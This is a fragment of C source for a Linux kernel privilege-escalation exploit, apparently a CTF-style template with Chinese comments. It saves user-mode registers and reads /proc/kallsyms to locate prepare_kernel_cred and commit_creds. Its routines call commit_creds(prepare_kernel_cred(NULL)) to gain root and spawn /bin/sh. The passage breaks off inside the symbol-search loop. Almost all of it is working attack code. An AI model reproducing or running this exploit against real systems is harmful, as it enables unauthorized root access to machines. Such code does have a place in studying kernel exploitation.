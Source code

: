 ```c
    vprintf(format, args);
    printf("%s", "\033[0m\n");
}

size_t commit_creds = 0, prepare_kernel_cred = 0;

size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    asm volatile(
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;");
    info("Status has been saved.");
}

void get_root_shell(void)
{
    if (getuid())
    {
        error("Failed to get the root!");
        exit(-1);
    }

    success("Successful to get the root. Execve root shell now...");
    system("/bin/sh");
}

void get_root_privilige(){
    void* (*prepare_kernel_cred_ptr)(void*) = prepare_kernel_cred;
    void* (*commit_creds_ptr)(void*) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}

int main()
{
    info("Starting to exploit...");
    
    // 保存当前寄存器状态 
    save_status();

    // 通过kallsyms，可以查看所有函数的地址（未设置kptr_restrict）
    FILE *sym_fd = fopen("/proc/kallsyms", "r");
    if (sym_fd < 0)
    {
        error("Open /proc/kallsyms Failed.");
        exit(0);
    }

    // 写循环，查找所需函数prepare_kernel_cred和commit_creds的地址
    size_t address = 0;
    char type[2];
    char func[0x50];
    while(fscanf(sym_fd, "%llx%s%s", &address, type, func)){
        // info("The function name is %s, while address is 0x%lx.", func, address);
        if(commit_creds && prepare_kernel_cred){
            success("The address of functions are all found.");
            break;
        }
        if(!strcmp(func, "prepare_kernel_cred")){
            prepare_kernel_cred = address;
```